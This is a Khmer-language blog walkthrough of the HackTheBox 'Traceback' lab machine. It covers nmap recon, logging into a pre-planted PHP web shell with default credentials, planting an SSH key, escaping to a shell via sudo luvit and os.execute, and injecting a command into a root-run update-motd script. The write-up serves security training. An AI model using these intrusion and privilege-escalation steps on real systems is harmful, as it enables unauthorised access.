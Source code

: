 ```yaml
---
title: "HackTheBox - Traceback"
date: 2020-11-21T11:38:55+07:00
description: សំនេររៀបរាប់អំពីការហេគម៉ាស៊ីនមេ Traceback
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
#tags:
#- 
#categories:
#- 
series:
- HTB
image: images/feature3/terminal.gif
---
```


![traceback-10.10.10.181](/en/posts/img/htb/traceback/traceback.png)

#### Recon
ជាដំបូងខ្ញុំប្រើ Nmap ដើម្បីស្វែងរកផតដែលបានបើក និងសេវាកម្មដែលបានប្រើ

{{< highlight plain "linenos=table,hl_lines=8 13" >}}
:~$ sudo nmap -sC -sV 10.10.10.181 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-21 13:29 +07
Nmap scan report for 10.10.10.181
Host is up (0.29s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

{{< / highlight >}}

ដូចដែលបានឃើញ គឺមានតែផតពីរប៉ុណ្នោះដែលបានបើកគឺផត ២២(ssh) និងផង ៨០(http)

#### OSINT
ក្រោយពីស្កេនរួចមកខ្ញុំក៏ចូលទៅកាន់អាស័យដ្ឋាន http://10.10.10.181:80 ហើយក៏បានឃើញដូចរូបដូចខាងក្រោម៖

![traceback-10.10.10.181](/en/posts/img/htb/traceback/1.deface.png)

ខ្ញុំចុច Ctrl+U ដើម្បីចូលមើលកូដខាងក្នុង ក៏ឃើញមាននូវព័ត៌មានមួយចំនួន៖

![traceback-10.10.10.181](/en/posts/img/htb/traceback/2.hint.jpg)

ខ្ញុំចាប់ផ្ដើមស្វែងរកឈ្មោះម្ចាស់គណនី <span style="color:red">Xh4H</span> នៅក្នុង Google ហើយក៏បានរកឃើញនូវ Github របស់ម្ចាស់គណនី។
បន្ទាប់មកខ្ញុំបានចូលទៅមើលក្នុង Repositories នោះហើយក៏ឃើញមាន Repository មួយមានឈ្មោះថា Web-Shells

![traceback-10.10.10.181](/en/posts/img/htb/traceback/3.webshell.jpg)

ខ្ញុំបានសាកល្បងចូលទៅតាមឈ្មោះរបស់ Shell រហូតដល់ឯកសារឈ្មោះថា <span style="color:red">smevk.php</span> ដែលលោតចេញនៅផ្ទាំងបំពេញបែបបត់ចូល

![traceback-10.10.10.181](/en/posts/img/htb/traceback/4.login-shell.jpg)

លេខសំងាត់របស់វាគឺ admin/admin ខ្ញុំក៏បានចូលទៅក្នុង Web Server បានសម្រេច។

![traceback-10.10.10.181](/en/posts/img/htb/traceback/5.shell-access.jpg)

#### Get User

ដើម្បីបាន User Flag ជាដំបូងខ្ញុំបានចូលទៅក្នុង /home/ តាមរយៈ Web-Shell ហើយក៏ឃើញមានគណនីអ្នកប្រើប្រាស់ចំនួនពីរ sysadmin/webadmin ដោយគណនី sysadmin ខ្ញុំមិនអាចមានសិទ្ធិចូលទៅក្នុងបានទេដូចនេះខ្ញុំចូលបានតែគណនី webadmin មួយប៉ុណ្នោះ។

ក្រោយមកខ្ញុំក៏ឃើញមានថតឯកសារមួយឈ្មោះថា .ssh និង ឯងសារមួយទៀតឈ្មោះថា authorised_keys

![traceback-10.10.10.181](/en/posts/img/htb/traceback/6.ssh-key.jpg)

ដូចនេះខ្ញុំក៏បានបង្កើតនៅ SSH-Key ហើយដាក់វាចូលទៅក្នុងឯកសារនោះដើម្បីមានសិទ្ធិចូលទៅកាន់ម៉ាស៊ីនមេតាមរយៈ SSH

![traceback-10.10.10.181](/en/posts/img/htb/traceback/7.ssh-in.jpg)

ក្រោយពីចូលតាមរយៈ SSH រួចមកខ្ញុំបានឃើញឯកសារមួយឈ្មោះ note.txt ដែលក្នុងនោះមានអត្ថន័យថា៖

{{< highlight plain "linenos=table" >}}
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
{{< / highlight >}}

ខ្ញុំក៏សាកស្វែងរកមើលឯកសារនៅក្នុងនោះ ហើយក៏បានរកឃើញប្រវត្តិប្រើប្រាស់ពាក្យបញ្ជាចាស់ៗ របស់អ្នកប្រើប្រាស់ដូចខាងក្រោម៖

{{< highlight bash "linenos=table, hl_lines=5" >}}
webadmin@traceback:~$ cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
rm privesc.lua
logout
{{< / highlight >}}

ដោយដឹងថា luvit ជាប្រភេទ lua script ដែលមានលទ្ធិភាពក្នុងការ execute និងបើកមើលនូវរាល់ឯកសារណាដែលមាននៅក្នុងគណនី sysadmin បានដូចនេះខ្ញុំក៏បង្កើត Script តូចមួយដើម្បីចូលទៅបើកមើលឯកសារ user.txt ដែលមាននៅក្នុងគណនី sysadmin ផ្ទាល់តែម្ដង។

{{< highlight plain "linenos=table" >}}
webadmin@traceback:~$ echo "os.execute("cat /home/sysadmin/user.txt") > user.lua
{{< / highlight >}}

បន្ទាប់មកខ្ញុំបានប្រើប្រាស់ឯកសារ luvit ដដែលដើម្បីបើកឯកសារ user.lua

{{< highlight plain "linenos=table, hl_lines=2" >}}
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit user.lua
23c296e8cxxxxxxxxxxxxxxxxxxxxxec
{{< / highlight >}}

ដូចនេះខ្ញុំក៏ទទួលបាន User Flag ដូចដែលបានបង្ហាញខាងលើ។

#### Get Root

ដោយប្រើប្រាស់ឯកសារ luvit ខ្ញុំអាចមានសិទ្ធិចូលជាគណនីរបស់ sysadmin បានដោយប្រើប្រាស់វិធីដូចខាងក្រោម៖

{{< highlight plain "linenos=table, hl_lines=3" >}}
webadmin@traceback:~$ echo "os.execute("/bin/bash") > sys.lua
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit sys.lua
sysadmin@traceback:~$
{{< / highlight >}}

ដូចដែលបានឃើញគឺខ្ញុំមានសិទ្ធិប្ដូរទៅជាគណនី sysadmin វិញដោយប្រើប្រាស់ Lua Script

បន្ទាប់ពីមានសិទ្ធិជា sysadmin ហើយខ្ញុំក៏ដាក់ SSH-Key ចូលទៅក្នុងប្រអប់ .ssh ដើម្បីអាច SSH ចូលទៅក្នុងគណនី sysadmin បានដូចពីពេលមុនដែរ។

បន្តទៀតខ្ញុំត្រូវការមើល Process របស់គណនី root ថាតើកំពុងតែប្រើពាក្យបញ្ជាអ្វីខ្លះ។ ដោយសារតែមិនមានសិទ្ធិជា root ចឹងហើយទើបជម្រើសដែលល្អបំផុតគឺប្រើប្រាស់ Tool ខាងក្រៅហើយ Tool ដែលខ្ញុំប្រើនោះគឺឈ្មោះ pspy64 ដែលវាមានលទ្ធិភាពក្នុងការមើល Process គ្រប់គណនីទាំងអស់បើទោះបីជាគ្មានសិទ្ធិជា root ក៏ដោយ។

<b>ទាញយក៖</b> <a target=BLANK href=https://github.com/DominicBreuker/pspy>pspy64</a>

ដើម្បី Upload ឯកសារនេះបានខ្ញុំត្រូវប្រើប្រាស់ពាក្យបញ្ជា scp

{{< highlight plain "linenos=table, hl_lines=3" >}}
:~$ sudo scp -i id_rsa pspy64 sysadmin@10.10.10.181:/tmp/
{{< / highlight >}}

ខ្ញុំបានបើកដំណើរការឯកសារ pspy64 នោះ ហើយវាបានបញ្ចេញនូវព័ត៌មានដូចខាងក្រោម៖

{{< highlight plain "linenos=table, hl_lines=3 6" >}}
2020/05/21 04:02:01 CMD: UID=0    PID=6094   | sleep 30 
2020/05/21 04:02:01 CMD: UID=0    PID=6093   | /bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/05/21 04:02:01 CMD: UID=0    PID=6092   | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/ 
2020/05/21 04:02:01 CMD: UID=0    PID=6091   | /usr/sbin/CRON -f 
2020/05/21 04:02:01 CMD: UID=0    PID=6090   | /usr/sbin/CRON -f 
2020/05/21 04:02:31 CMD: UID=0    PID=6096   | /bin/cp /var/backups/.update-motd.d/ /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
{{< / highlight >}}

អ្វីដែលគួរឲ្យចាប់អារម្មណ៏នោះគឺត្រង់កន្លែង "/bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/" និង "sleep 30" មានន័យថារាល់ពេល ៣០វិនាទីម្ដងម៉ាស៊ីនមួយនេះនឹងធ្វើការថតចម្លងគ្រប់ឯកសារទាំងអស់ដែលស្ថិតនៅក្នុងថតឯកសារ /var/backups/.update-motd.d/ យកទៅដាក់ចូលទៅក្នុងថតឯកសារ /etc/update-motd.d/ ដែលជាថតឯកសារមេរបស់ម៉ាស៊ីន និង ប្រើប្រាស់ដោយម្ចាស់គណនី root។

ក្រោយពីបានចូលទៅមើលឯកសារដែលមាននៅក្នុងថតឯកសារ /etc/update-motd.d/ រួចមកខ្ញុំសង្កេតឃើញថាឯកសារដែលមានក្នុងនោះគឺជារបស់ម្ចាស់គណនី root ប៉ុន្តែម្ចាស់គណនី sysadmin ក៏អាចមានសិទ្ធិកែប្រែបានផងដែរ។

ដូចនេះខ្ញុំក៏បន្ថែមពាក្យបញ្ជាមួយបន្ទាត់ទៀត គឺ "cat /root/root.txt" ចូលទៅក្នុងឯកសារ 00-header ដែលជាឯកសារបង្ហាញផ្ទាំងក្បាលនៅពេលចូលដល់កន្លែងវាយលេខសំងាត់របស់ SSH

![traceback-10.10.10.181](/en/posts/img/htb/traceback/8.00-header.jpg)

នៅពេលរួចរាល់អស់ហើយខ្ញុំបានធ្វើការសាកល្បង SSH ចូលក្នុងម៉ាស៊ីនមេម្ដងទៀតហើយក៏ទទួលបាន... :D

![traceback-10.10.10.181](/en/posts/img/htb/traceback/9.root.jpg)

ពិតណាស់ ដូចដែលឃើញចឹងគឺខ្ញុំទទួលបាន Root Flag នៅពេលដែលចូលក្នុងម៉ាស៊ីនមេដោយប្រើ SSH៕
